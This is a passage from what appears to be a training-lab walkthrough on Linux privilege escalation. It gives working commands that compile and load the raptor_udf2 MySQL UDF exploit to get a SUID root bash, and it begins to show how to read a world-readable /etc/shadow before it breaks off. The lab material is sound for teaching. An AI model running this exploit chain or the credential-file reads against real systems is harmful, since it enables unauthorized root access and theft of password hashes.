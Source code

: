 <img src = https://i.imgur.com/RuMC2vG.png>

# Linux PrivEsc

The password for the "user" account is "password321".

The next tasks will walk you through different privilege escalation techniques. After each technique, you should have a root shell. Remember to exit out of the shell and/or re-establish a session as the "user" account before starting the next task!


## 1. Service Exploits 

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

* Change into the /home/user/tools/mysql-udf directory:

* Compile the raptor_udf2.c exploit code using the following commands:

```sh
gcc -g -c raptor_udf2.c -fPIC

gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

* Connect to the MySQL service as the root user with a blank password:

``` mysql -u root ```

* Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:
  
```use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

* Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash'); ```

* Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```/tmp/rootbash -p ```

* Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!

```
rm /tmp/rootbash
exit 
```

## 2. Weak File Permissions - Readable /etc/shadow 

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-readable:

``` ls -l /etc/shadow ```

* View the contents of the /etc/shadow file:

```